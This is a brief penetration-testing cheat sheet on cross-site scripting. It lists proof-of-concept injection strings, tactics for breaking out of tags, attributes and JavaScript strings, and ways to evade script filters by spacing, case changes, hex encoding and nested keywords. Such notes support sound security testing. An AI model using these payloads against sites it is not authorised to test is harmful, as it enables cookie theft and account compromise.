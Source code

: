 ```yaml
---
layout: post
title:  "Cross Site Scripting (XSS)"
date:   2019-1-1 16:57:56 +0100
---
```

# Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


# Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

# Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

# Filters evading
## script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`
